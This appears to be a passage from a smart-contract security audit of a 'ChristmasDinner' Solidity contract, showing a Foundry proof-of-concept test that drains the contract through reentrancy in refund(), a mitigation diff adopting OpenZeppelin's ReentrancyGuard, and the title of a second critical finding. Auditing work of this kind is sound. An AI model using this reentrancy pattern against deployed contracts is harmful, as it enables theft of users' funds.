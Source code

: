 ```solidity
    function test_exploit() public {
        // ensure there are funds in ChristmasDinner contract
        vm.deal(address(cd), 10 ether);

        Exploit exploit;
        exploit = new Exploit(payable(address(cd)));
        vm.deal(address(exploit), 1 ether);

        // Exploit contract deposits ETH into the ChrustmasDinner contract
        vm.prank(address(exploit));
        (bool success,) = address(cd).call{value: 1 ether}("");
        require(success);

        // Trigger the exploit, reenter and steal funds
        vm.prank(address(exploit));
        cd.refund();

        assert(address(cd).balance == 0);
        assert(address(exploit).balance == 11 ether);
    }
```

**Recommended Mitigation:**

Implement `ReentrancyGuard` from `OpenZeppelin` instead.

```diff
+   import {ReentrancyGuard} from "../lib/openzeppelin-contracts/contracts/utils/ReentrancyGuard.sol";

-   contract ChristmasDinner {
+   contract ChristmasDinner is ReentrancyGuard {

    ...
    ...

-   modifier nonReentrant() {
-       require(!locked, "No re-entrancy");
-       _;
-       locked = false;
-   }

    ...
    ...

    }
```
 
### [C-2] A non participant can become a participant by calling `changeParticipationStatus()` function, and if they are made host, they can steal all the funds in the contract
